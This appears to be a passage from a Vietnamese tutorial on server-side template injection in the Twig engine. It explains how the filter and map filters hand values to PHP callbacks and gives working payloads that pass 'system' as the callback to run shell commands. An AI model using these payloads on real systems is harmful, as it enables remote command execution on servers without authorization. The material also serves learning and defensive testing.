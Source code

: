 ```
{% set sizes = [34, 36, 38, 40, 42] %}

{{ sizes|filter(v => v > 38)|join(', ') }}
{# output 40, 42 #}
```
![img](source/img12.png)

> array_filter ( array $array [, callable $callback [, int $flag = 0 ]] ) : array
> array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);

- array_filter() trong PHP duyệt qua mỗi value trong mảng và truyền tới hàm callback. Nếu hàm callback trả về true, thì value hiện tại của mảng được trả về. Nếu hàm callback không được cung cấp, thì tất cả đầu vào của mảng mà tương đương với FALSE sẽ bị xóa.

- Như vậy nếu dữ liệu ta truyền vào là một mảng thì khi đó nó sẽ là đối số trong hàm $arrow.

![img](source/img13.png)

> Payload: {{ ['id']|filter("system") }}

2. Twig_array_map.

- Tương tự như *filter*, *map* cũng sử dụng đôi số là các phần tử trong chuỗi hay các mẳng để truyền vào hàm callback.

- Arguments:
	+ array: The sequence or mapping
	+ arrow: The arrow function 

```
{% set people = [
    {first: "Bob", last: "Smith"},
    {first: "Alice", last: "Dupond"},
] %}

{{ people|map(p => "#{p.first} #{p.last}")|join(', ') }}
{# outputs Bob Smith, Alice Dupond #}
```
![img](source/img14.png)

- Ta có thể thấy hàm sẽ lặp trong array lấy ra key:value sau đó truyền làm đối số của $arrow , vì thế lúc này nó sẽ thực thi $arrow($k, $v) như một hàm và lưu kết quả với key tương ứng trong $r.

```
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
file_put_contents ( string $filename  , mixed $data [, int $flags = 0 [, resource $context ]] ) : int
```

- Payload:

```
{{["id"]|map("system")}}
```
